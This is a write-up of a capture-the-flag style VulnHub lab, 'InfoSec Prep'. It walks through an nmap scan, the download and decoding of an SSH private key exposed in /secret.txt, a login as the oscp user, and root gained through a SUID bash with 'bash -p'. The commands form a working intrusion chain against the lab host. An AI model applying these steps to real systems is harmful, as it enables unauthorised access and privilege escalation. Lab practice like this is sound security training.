 ```yaml
---
layout: post
title: Writeup for InfoSecPrep machine form vulnhub
categories: [writeup]
tags: [vulnhub, Cryptographic failure, SUID]
---
```


**Box** | [InfoSec Prep](https://www.vulnhub.com/entry/infosec-prep-oscp,508/).  
**Vulnerability** | Sensitive data Exposure.  
**Vulnerability explanation** | private ssh key left on sever.  
**Privilege Escalation** | Executing SUID executables (bash)

## Nmap scan

nmap scan revealed that `Apache httpd 2.4.41` is running on port `80`, and robots.txt contains a Disallowed entry: `/secret.txt`

![nmap scan](/assets/infosecprep/nmap_scan.png)

```
$ nmap 192.168.1.102 -sV -sC
Nmap scan report for 192.168.1.102
Host is up (0.00067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  4 08:16:54 2022 -- 1 IP address (1 host up) scanned in 22.49 seconds
```

## Initial foothold

`secret.txt` conatins a base64 value

```
$ curl 192.168.1.102/secret.txt -O
```

![curl secret](/assets/infosecprep/curl_secret.png)

**Decoded it and got a ssh private key**

`cat secret.txt | base64 -d > ssh-key`

![ssh private key](/assets/infosecprep/ssh-key.png)

**Used ssh-key to get a session as `oscp` user**

```
$ chmod 0600 ssh-key
$ ssh -i ssh-key oscp@192.168.1.102
```

![oscp user](/assets/infosecprep/oscp_user.png)

## Privilge Escalation

**Used `find` command to list files with SUID bit set.**

```
$ find / -type f -perm -u=s 2>/dev/null
```
![find suid](/assets/infosecprep/find.png)

**The output showed that `/usr/bin/bash` is one of them.**

![bash suid](/assets/infosecprep/bash-suid.png)

**Ran `bash -p` and got a root shell**

![root shell](/assets/infosecprep/root-shell.png)
